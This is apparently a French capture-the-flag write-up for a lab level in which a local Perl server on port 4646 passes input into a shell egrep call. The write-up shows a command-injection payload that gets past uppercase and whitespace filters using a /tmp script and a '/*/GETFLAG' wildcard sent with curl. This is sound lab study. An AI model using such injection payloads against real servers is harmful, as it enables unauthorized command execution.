


Pour le level12, un serveur écoute sur le port 4646, on peut trouver son code dans le home de level12:



Dans le code, on peut voir un appel système:
```
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

Ce donc ça que l'on va exploiter, le seul problème étant que la variable `$xx` subit des traitements avant d'être utilisé.

Ces changement sont appliqués par 2 regex:
1. Remplace toutes les lettres minuscules par leur équivalents en majuscule
2. Garde uniquement le premier mot (tous le reste de la chaine est supprimé à partir du premier whitespace)

Il faut donc que la commande que l'on va envoyer puisse être comprise par le shell même en majuscule et qu'elle ne contienne pas de whitespace.

On va donc placer notre code dans un fichier et essayer d'executer ce fichier:

`echo 'getflag > /tmp/flag12' > /tmp/GETFLAG`

`curl 'localhost:4646?x=$(/tmp/GETFLAG)'`

Cet example ne fonctionne pas car le shell ne trouve pas le dossier `/TMP/GETFLAG`.

Pour contrer ce problème, on peut utiliser une wildcard ce qui donne: `/*/GETFLAG`:

`curl 'localhost:4646?x=$(/*/GETFLAG)'`

